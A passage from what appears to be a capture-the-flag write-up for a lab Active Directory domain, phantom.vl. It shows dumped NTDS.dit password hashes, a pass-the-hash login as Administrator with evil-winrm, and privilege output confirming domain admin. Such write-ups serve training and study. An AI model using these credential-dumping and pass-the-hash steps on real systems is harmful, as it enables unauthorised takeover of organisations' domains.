PHANTOM.vl\fhanson:1128:aad3b435b51404eeaad3b435b51404ee:3ecba7b39ce4b3fbe05362d6e05d31d0:::
PHANTOM.vl\cferguson:1129:aad3b435b51404eeaad3b435b51404ee:74bb37fa58020392821cdb89b5098f2d:::
PHANTOM.vl\alucas:1130:aad3b435b51404eeaad3b435b51404ee:53bd6a54d3dd605385e55f3226b0814d:::
PHANTOM.vl\ebryant:1131:aad3b435b51404eeaad3b435b51404ee:abf123fca11a39c94bd92505f61c12a5:::
PHANTOM.vl\vlynch:1132:aad3b435b51404eeaad3b435b51404ee:c6837ff88c25daea76b0f390f7ab0552:::
PHANTOM.vl\ghall:1133:aad3b435b51404eeaad3b435b51404ee:a1ca032e6023ddeedd9009d4c0a8c836:::
PHANTOM.vl\ssimpson:1134:aad3b435b51404eeaad3b435b51404ee:1c029611755dfa697b1996f88a8d9c17:::
PHANTOM.vl\ccooper:1135:aad3b435b51404eeaad3b435b51404ee:fc35a773ba47633c4c1a807f91e9d496:::
PHANTOM.vl\vcunningham:1136:aad3b435b51404eeaad3b435b51404ee:c187274e5ff6a96c44bce6200d6e7944:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:648605bbb93c66d7754580cb850957fc:::
```

I have now dumped the contents of NTDS.dit

```python
evil-winrm -i dc.phantom.vl -u Administrator -H 'aa2abd9db4f5984e657f834484512117'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

```python
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Domain Admin!
